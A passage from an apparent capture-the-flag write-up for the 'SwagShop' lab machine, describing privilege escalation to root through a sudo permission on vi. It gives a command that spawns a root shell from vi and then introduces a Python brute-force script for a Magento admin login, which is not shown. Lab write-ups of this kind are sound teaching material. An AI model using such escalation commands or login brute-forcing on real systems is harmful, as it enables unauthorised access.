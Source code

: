 After getting access, there is an interesting sudo permission:

![user3](./swagshop/user3.png)

This is a known path to `root`:

- https://gtfobins.github.io/gtfobins/vi/

Run the following to get a shell as `root`:

```bash
sudo /usr/bin/vi /var/www/html/get.php -c ':!/bin/sh'
```

![root1](./swagshop/root1.png)

---

Something extra is the following Python script that will try to bruteforce a login for the Magento Admin login. This was ran in the background assuming the username `admin` while looking through the other exploits...
